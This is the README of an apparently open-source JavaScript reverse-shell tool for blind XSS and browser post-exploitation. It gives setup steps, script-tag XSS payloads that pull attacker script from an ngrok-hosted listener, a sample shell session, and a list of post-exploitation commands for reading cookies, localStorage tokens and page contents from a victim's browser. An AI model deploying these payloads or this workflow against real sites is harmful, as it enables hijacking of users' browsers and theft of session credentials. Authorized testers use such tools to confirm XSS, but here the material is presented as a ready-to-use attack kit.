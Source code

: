 # Description
 A reverse shell in JavaScript using HTTP to communicate, used to confirm blind XSS vulnerabilities and a tool for browser post-exploitation.
# Setup and Use
``pip install pyngrok socketserver``

Then, run in terminal or cmd:

``python server.py``

Now, run the JavaScript XSS payload on the target (Or simply open the HTML payload in the browser).

````
  ____  _                       ____      _ ____  
 |  _ \(_)_ __ ___   ___  _ __ |  _ \    | / ___|
 | | | | | '_ ` _ \ / _ \| '_ \| | | |_  | \___ \
 | |_| | | | | | | | (_) | | | | |_| | |_| |___) |
 |____/|_|_| |_| |_|\___/|_| |_|____/ \___/|____/  v1.3

 <------------ Developed by DimonDev ------------>


[!] Execute one of these payloads on the target:

Local target:

<script src="http://localhost:6969/?command=get_script"></script>
The HTML payload: http://localhost:6969/

Remote target:

<script src="https://aaaabbbbcccc.ngrok-free.app/?command=get_script"></script>
The HTML payload: https://aaaabbbbcccc.ngrok-free.app

[+] Listener server started over WAN - https://aaaabbbbcccc.ngrok-free.app
[+] Listening on port 6969
````

When a the target is connected, it will spawn a reverse HTTP shell (type command help):

````
  ____  _                       ____      _ ____  
 |  _ \(_)_ __ ___   ___  _ __ |  _ \    | / ___|
 | | | | | '_ ` _ \ / _ \| '_ \| | | |_  | \___ \
 | |_| | | | | | | | (_) | | | | |_| | |_| |___) |
 |____/|_|_| |_| |_|\___/|_| |_|____/ \___/|____/  v1.3

 <------------ Developed by DimonDev ------------>


[!] Execute one of these payloads on the target:

Local target:

<script src="http://localhost:6969/?command=get_script"></script>
The HTML payload: http://localhost:6969/?command=get_html

Remote target:

<script src="https://aaaabbbbcccc.ngrok-free.app/?command=get_script"></script>
The HTML payload: https://aaaabbbbcccc.ngrok-free.app

[+] Listener server started over WAN - https://aaaabbbbcccc.ngrok-free.app
[+] Listening on port 6969

127.0.0.1 - - [03/May/2023 23:47:55] "GET /?command=get_script HTTP/1.1" 200 -
127.0.0.1~# 
127.0.0.1 - - [03/May/2023 23:47:55] "GET /shell HTTP/1.1" 200 -
127.0.0.1 - - [03/May/2023 23:47:56] code 404, message Not Found
127.0.0.1 - - [03/May/2023 23:47:56] "GET /favicon.ico HTTP/1.1" 404 -

undefined

127.0.0.1~#
127.0.0.1 - - [03/May/2023 23:47:56] "GET /shell?resp=undefined HTTP/1.1" 200 -
127.0.0.1~# 
127.0.0.1 - - [03/May/2023 23:47:56] "GET /shell HTTP/1.1" 200 -

undefined

127.0.0.1~#
127.0.0.1 - - [03/May/2023 23:47:57] "GET /shell?resp=undefined HTTP/1.1" 200 -
127.0.0.1~# 
127.0.0.1 - - [03/May/2023 23:47:58] "GET /shell HTTP/1.1" 200 -

undefined

127.0.0.1~# help

---------------------------------------------------------
Usage:
    You can either input a Javascript snippet or use
    the internal commands.

Commands:
    help - Prints this message.
    getip - Fetches the public IP of the target.
    vulnscan - Scans for possible CVEs in the target
                browser.
    info CVE-0000-0000 - Information about a CVE.
    exploit CVE-0000-0000 - (For now, it only prints
                                exploit-db url)

Useful JavaScript:
    document.documentURI
    document.location
    document.domain
    document.body.innerHTML
    document.head.innerHTML
    document.cookie
    localStorage
    localStorage.getItem("SOME_ITEM_OR_TOKEN")
    navigator.userAgent
    navigator.platform
    navigator.vibrate()
    navigator.javaEnabled()
    navigator.languages
    navigator.maxTouchPoints
    navigator.buildID

----------------- Developed by DimonDev -----------------

127.0.0.1~#
````

# Post-exploitation
You can now use the JavaScript console remotely.
Here are some interesting commands to use:
1. `document.documentURI`: This property returns the URI (Uniform Resource Identifier) of the current document.
2. `document.location`: This property returns a Location object, which contains information about the current URL of the document, including the protocol, host, port, pathname, and search parameters.
3. `document.domain`: This property returns the domain of the current document's URL. This property is often used to enable cross-origin scripting between documents served from different domains.
4. `document.body.innerHTML`: This property allows you to get or set the HTML content of the `<body>` element of the current document. When you set this property, the existing content of the `<body>` element is replaced with the new content.
5. `document.head.innerHTML`: This property allows you to get or set the HTML content of the `<head>` element of the current document. When you set this property, the existing content of the `<head>` element is replaced with the new content.
6. `document.cookie`: This property allows you to get or set the cookies associated with the current document. Cookies are small pieces of data that are stored on the client-side and are often used to persist user preferences or authentication information.
7. `localStorage`: This is an object that provides a simple key-value store for persisting data on the client-side. Unlike cookies, data stored in localStorage is not sent to the server with every request.
8. `localStorage.getItem("SOME_ITEM_OR_TOKEN")`: This method allows you to retrieve an item from localStorage based on its key. The key is a string that you provide when you store the item.
9. `navigator.platform`: This property returns a string that identifies the operating system platform that the browser is running on (e.g., "MacIntel", "Win32", "Linux x86_64", etc.).
10. `navigator.vibrate()`: This method allows you to trigger a vibration effect on the user's device. This method takes an array of integers that specifies the pattern of vibration (e.g., `[100, 200, 300]` would vibrate for 100ms, then pause for 200ms, then vibrate for 300ms).
11. `navigator.javaEnabled()`: This method returns a boolean indicating whether the browser has Java support enabled.
12. `navigator.languages`: This property returns an array of strings that represents the user's preferred languages for content.
13. `navigator.maxTouchPoints`: This property returns the maximum number of simultaneous touch points that the user's device supports.
14. `navigator.buildID`: This property returns a string that identifies the build of the browser that the user is using. This value is often used for debugging purposes.
Remember to get creative!
